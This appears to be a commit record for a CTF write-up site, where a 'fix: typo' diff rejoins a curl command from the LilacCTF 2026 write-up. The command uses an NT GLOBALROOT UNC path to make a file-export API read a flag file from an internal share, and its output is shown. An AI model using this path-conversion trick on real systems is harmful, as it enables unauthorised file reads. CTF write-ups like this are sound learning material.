

Before and after one commit to claustra01/my-ctf-writeups, a Jekyll site: the page built from _writeups/lilac_ctf_2026.md, in a window 1280 px wide and 900 px high, scrolled down 1929 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
fix: typo

````diff
--- a/_writeups/lilac_ctf_2026.md
+++ b/_writeups/lilac_ctf_2026.md
@@ -42,8 +42,7 @@ Stage2 requires to network access. I thought to use UNC path like `//./UNC/172.2
 
 Finally, my teammate solved stage2.
 ```sh
-$ curl -sG "http://1.95.51.2:8080/api/export/read" --data-urlencode 'path=\\?\GLOBALROOT\??\UNC\172.20.0.10\backup\flag.txt' --data-urlencode 'token=B77ZUznknJJz8a7xV-I9A9NuRbyFPzJV8Gb2g
-YxSZZA'
+$ curl -sG "http://1.95.51.2:8080/api/export/read" --data-urlencode 'path=\\?\GLOBALROOT\??\UNC\172.20.0.10\backup\flag.txt' --data-urlencode 'token=B77ZUznknJJz8a7xV-I9A9NuRbyFPzJV8Gb2gYxSZZA'
 {"content":"LilacCTF{W1n32_t0_NT_P4th_C0nv3rs10n_M4st3r_2026}","size":50,"success":true}
 ```
 `LilacCTF{W1n32_t0_NT_P4th_C0nv3rs10n_M4st3r_2026}`
````
